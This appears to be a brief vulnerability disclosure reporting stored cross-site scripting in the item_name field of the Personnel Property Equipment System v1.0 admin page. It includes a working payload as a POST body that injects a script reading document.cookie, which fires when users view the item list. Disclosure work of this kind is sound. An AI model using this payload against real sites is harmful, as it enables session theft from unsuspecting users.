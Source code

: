 # Personnel Property Equipment System v1.0 has stored cross-site scripting

BUG_Author: LeoZhangCA

vendors: https://www.sourcecodester.com/php/11255/personel-property-equipment-system.html

Vulnerability File: /PPES/admin/add_item.php

POST parameter "item_name" exists stored cross-site scripting vulnerability

Payload: ```item_name=<script>alert(document.cookie)</script>&item_brand=2&item_serial=3&item_status=New&item_description=<p>4</p>&save=```

![image](https://github.com/LeozhangCA/CVEReport/blob/main/picture/storeXSS1.png)

Payload will trigger when a user visits on http://localhost/PPES/admin/item.php

![image](https://github.com/LeozhangCA/CVEReport/blob/main/picture/storeXSS2.png)

